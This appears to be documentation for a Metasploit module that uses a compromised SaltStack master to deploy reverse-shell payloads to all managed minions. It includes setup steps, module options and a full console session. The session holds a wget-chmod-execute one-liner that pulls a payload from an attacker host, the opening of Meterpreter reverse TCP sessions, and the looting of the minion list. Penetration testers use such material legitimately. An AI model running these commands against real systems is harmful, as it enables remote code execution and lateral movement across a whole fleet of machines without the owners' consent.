 ## Vulnerable Application

This exploit module uses saltstack salt to deploy a payload and run it
on all targets which have been selected (default all).
Currently only works against nix targets.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Get an initial shell on the box
1. Do: `use exploit/linux/local/saltstack_salt_minion_deployer`
1. Do: `set session [#]`
1. Do: `run`
1. You should get sessions on all the targeted hosts

## Options

### SALT

Location of salt-master executable if not in a standard location. This is added to a list of default locations
which includes `/usr/bin/salt-master`. Defaults to ``

### MINIONS

Which minions to target. Defaults to `*`

## WritableDir

A directory on the compromised host we can write our payload to. Defaults to `/tmp`

## TargetWritableDir

A directory on the target hosts we can write our payload to. Defaults to `/tmp`

## CALCULATE

This will calculate how many hosts may be exploitable by using Ansible's ping command.

### ListenerTimeout

How many seconds to wait after executing the payload for hosts to call back. Defaults to `60`

## Scenarios

### Minion 3002.2 on Ubuntu 20.04

Get initial access to the system. In this case, root was required to execute salt commands successfully.

```
resource (salt_deploy.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (salt_deploy.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (salt_deploy.rb)> set srvport 8181
srvport => 8181
resource (salt_deploy.rb)> set target 7
target => 7
resource (salt_deploy.rb)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (salt_deploy.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8181/hvy2Ol
[*] Server started.
[*] Run the following command on the target machine:
wget -qO exVJILEV --no-check-certificate http://1.1.1.1:8181/hvy2Ol; chmod +x exVJILEV; ./exVJILEV& disown
[*] 3.3.3.3    web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 3.3.3.3
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 3.3.3.3:45200) at 2023-12-16 09:59:02 -0500
```

```
resource (salt_deploy.rb)> use exploit/linux/local/saltstack_salt_minion_deployer
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
resource (salt_deploy.rb)> set session 1
session => 1
resource (salt_deploy.rb)> set verbose true
verbose => true
resource (salt_deploy.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (salt_deploy.rb)> set lport 9996
lport => 9996
[msf](Jobs:1 Agents:0) exploit(linux/local/saltstack_salt_minion_deployer) > 

[msf](Jobs:1 Agents:1) exploit(linux/local/saltstack_salt_minion_deployer) > run
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/local/saltstack_salt_minion_deployer) > 
[*] Started reverse TCP handler on 1.1.1.1:9996 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] /tmp is writable, and salt-master executable found
[+] The target is vulnerable.
[*] Attempting to list minions
[*] minions:
- mac_minion
- salt-minion
- window-salt-minion
minions_denied: []
minions_pre: []
minions_rejected: []
[+] 3.3.3.3:45200 - minion file successfully retrieved and saved to /root/.msf4/loot/20231216100004_default_3.3.3.3_saltstack_minion_890818.yaml
[+] Minions List
============

 Status    Minion Name
 ------    -----------
 Accepted  mac_minion
 Accepted  salt-minion
 Accepted  window-salt-minion

[+] 3 minions were found accepted, and will attempt to execute payload. Waiting 10 seconds incase this isn't optimal.
[*] Writing '/tmp/E76Azw' (336 bytes) ...
[*] Copying payload to minions

[*] Executing payloads
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:9996 -> 2.2.2.2:36850) at 2023-12-16 10:00:46 -0500
```
